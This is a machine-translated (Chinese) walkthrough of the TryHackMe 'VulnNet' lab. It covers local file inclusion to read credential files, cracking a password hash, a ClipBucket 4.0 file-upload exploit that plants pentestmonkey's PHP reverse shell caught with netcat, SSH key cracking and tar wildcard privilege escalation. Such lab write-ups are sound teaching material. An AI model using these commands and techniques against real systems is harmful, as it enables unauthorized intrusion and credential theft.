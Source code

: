# VulnNet Tryhackme 报道

> 原文：<https://infosecwriteups.com/vulnnet-tryhackme-writeup-3a5bd68b0959?source=collection_archive---------1----------------------->

## 作者 Shamsher khan 这是一篇关于 Tryhackme room“VulnNet”的文章

![](img/b22fe2b317918f4fade23dcb495a8072.png)

[https://www.tryhackme.com/room/vulnnet1](https://www.tryhackme.com/room/vulnnet1)

**房间链接:**[https://www.tryhackme.com/room/vulnnet1](https://www.tryhackme.com/room/vulnnet1)
**注:此房免费**

# 列举

在我们开始枚举盒子之前，将下面一行添加到您的`/etc/hosts`文件中。

> **echo " 10 . 10 . 236 . 130 vulnnet . thm ">>/etc/hosts**

# 列举

![](img/a70020ee68b7208662794fb57ac63cca.png)

有`2`个开放端口。端口`22`用于`SSH`，端口`80`用于 web 服务器。我们从列举 web 服务器开始。浏览到`http://vulnnet.thm/`我们发现如下页面:

![](img/7ec52f99f03dada92500366257c58863.png)

让我们检查 web 页面的源代码

![](img/6b18e5021e3fd75112c7a400de7a5230.png)

我们看到两个奇怪的 JavaScript 文件。

现在我们使用 [LinkFinder](https://github.com/GerbenJavado/LinkFinder) 来查找 JavaScript 文件中的链接。运行以下命令来查找隐藏的链接:

```
git clone [https://github.com/GerbenJavado/LinkFinder.git](https://github.com/GerbenJavado/LinkFinder.git)pip3 install -r requirements.txt
python3 linkfinder.py -d -i [http://vulnnet.thm/](http://vulnnet.thm/) -o cli
```

![](img/6257964d535e6ea621c8e6377cec24d8.png)

您现在应该可以找到以下链接:

```
[http://broadcast.vulnnet.thm](http://broadcast.vulnnet.thm)
http://vulnnet.thm/index.php?referer=
```

将`broadcast.vulnnet.thm`添加到您的`/etc/hosts`文件中。为此，请运行:

```
echo "<box_ip>   broadcast.vulnnet.thm" >> /etc/hosts
```

浏览至`http://broadcast.vulnnet.thm`提示基本认证登录屏幕。我们还没有证书。但是，我们可以滥用 URL 中的`referer`参数。您可以通过运行以下命令读取机器`/etc/passwd`的内容:

![](img/074172993b8916c8e79570db0a8b4e4a.png)

因为我们处理的是 Apache web 服务器，所以我们必须找到`broadcast.vulnnet.thm` web 服务器的`.htpasswd`。默认情况下，您可以在`/etc/apache2/sites-enabled/000-default.conf`中查看网络配置。运行以下命令读取该文件:

![](img/27b9e0850b8d056b41fc2c439bbdee30.png)

你可以看到`.htpasswd`的位置是:`/etc/apache2/.htpasswd`。运行以下命令查看`/etc/apache2/.htpasswd`文件的内容。

![](img/b84452273e6fd0e5ed23a38ebfe78dd2.png)

在`/etc/apache2/.htpasswd`文件中，您会发现下面的用户/散列组合

![](img/03a854636a1f03cdbcace1f1274ec63e.png)

在这里，我们破解了哈希并获得了开发者用户的密码

浏览至`http://broadcast.vulnnet.thm/`并填写凭证。您现在应该会看到以下页面:

![](img/4e737b255cd07b8ef56deb8fe87ff178.png)![](img/a728eb9e4816aa29098f29f7c343d31e.png)

# 剪辑桶漏洞利用

广播站点正在运行 ClipBucket。 [ClipBucket](https://clipbucket.com/) 用于构建自己的视频流软件。ClipBucket 正在运行 4.0 版。该版本容易受到以下[漏洞利用](https://www.exploit-db.com/exploits/44250)的攻击。此漏洞是一个未经验证的文件上传漏洞。通过运行以下命令获得 PHP 反向 shell

```
wget [https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php](https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php)
```

![](img/17e3cdcff628292a362b203a24b7e0f3.png)

在您喜欢的代码编辑器中打开该文件，并将 IP 地址更改为您的本地攻击机器，并将端口号更改为 1234。现在，您可以使用下面的命令将 PHP shell 上传到服务器。

```
curl -F "file=@php-reverse-shell.php" -F "plupload=1" -F "name=php-reverse-shell.php" [http://broadcast.vulnnet.thm/actions/photo_uploader.php](http://broadcast.vulnnet.thm/actions/photo_uploader.php) -u developers:<REDACTED>
```

![](img/a21cc8b24811a7548516189163af295f.png)

浏览到`http://broadcast.vulnnet.thm/files/`找到目录列表。您的 shell 驻留在`photos`目录中。在这个目录中有一个带有当前日期的目录。在本地攻击机器上，运行以下命令:

![](img/fa0f64dbf7ede85688782cb1b5255ac7.png)

启动 netcat 监听器

```
nc -lvp 1234
```

![](img/2d373c57ad3b9c5557cb5376722e521a.png)

在浏览器中打开 shell，您应该会收到一个连接。运行以下命令来改进您的 shell:

```
python3 -c 'import pty;pty.spawn("/bin/bash")'
export TERM=xterm-256color
CTRL+Z
stty raw -echo;fg
ENTER
ENTEng styleR
```

# 用户标志

现在我们已经在这个系统中站稳了脚跟，我们需要提升我们的特权，找到`user.txt`旗帜。当检查`/var/backups`目录时，我们找到了`ssh-backup.tar.gz`文件。在服务器上运行以下命令

![](img/5e3a6b085712bdb09f1172b7e54ecbe1.png)

现在，您应该可以在屏幕上看到私钥的内容。复制这些行，并将它们保存在本地机器上的一个文件中。将这个文件命名为`id_rsa`。SSH 私有密钥受密码保护。我们可以通过使用`ssh2john.py`来尝试暴力破解私钥的密码。`ssh2john.py`将私钥转换成可由`john`强制执行的哈希。运行以下命令以暴力破解私钥的密码:

![](img/6414615d55f998c72ab0ffe5290843d2.png)

过一会儿，您应该会找到私钥的密码。通过运行以下命令，使用 SSH 登录:

ssh-I id _ RSA 2 server-management @ vulnnet . thm

![](img/f9f0129806bd85cf29d5b73179c6c35c.png)

提供密码，现在您应该以`server-management`用户的身份登录。`user.txt`标志位于`/home/server-management/user.txt`

# 根标志

最后一步是找到`root.txt`标志。在`/etc/crontab`有一个 Cron 作业。`root`用户每 30 秒执行一次`/var/opt/backupsrv.sh`脚本。脚本的内容如下所示:

在`/var/opt/`中，我们看到一个名为`backupsrv.sh`的文件

![](img/119c40cc9d9a6ced4c552f341c1321b6.png)![](img/a5c6b37c70abcd81ce71f6935b48caee.png)

这里存在一个通配符漏洞。每当您使用带有通配符的`tar`时，您可以创建被执行的文件。运行以下命令以获得对`root`用户的访问权限

![](img/736eb829155059f9c1431e7303115162.png)![](img/10fa0d71e779ac02e0db7aee62e1f170.png)

你可以在:
**LinkedIn:-**[https://www.linkedin.com/in/shamsher-khan-651a35162/](https://www.linkedin.com/in/shamsher-khan-651a35162/)
**Twitter:-**[https://twitter.com/shamsherkhannn](https://twitter.com/shamsherkhannn)
**Tryhackme:-**[https://tryhackme.com/p/Shamsher](https://tryhackme.com/p/Shamsher)

![](img/09e5bbba06c7688a702aeec8570d243c.png)

如需更多演练，请在出发前继续关注…
…

**点击这里加入电报**

[![](img/149e778f03405fe40fb89bb9dbc5034d.png)](https://t.me/tryhackme_writeups)

[https://t.me/tryhackme_writeups](https://t.me/tryhackme_writeups)

访问我的其他演练:-

感谢您花时间阅读我的演练。如果你觉得它有帮助，请点击👏按钮👏(高达 40 倍)并分享
它来帮助其他有类似兴趣的人！+随时欢迎反馈！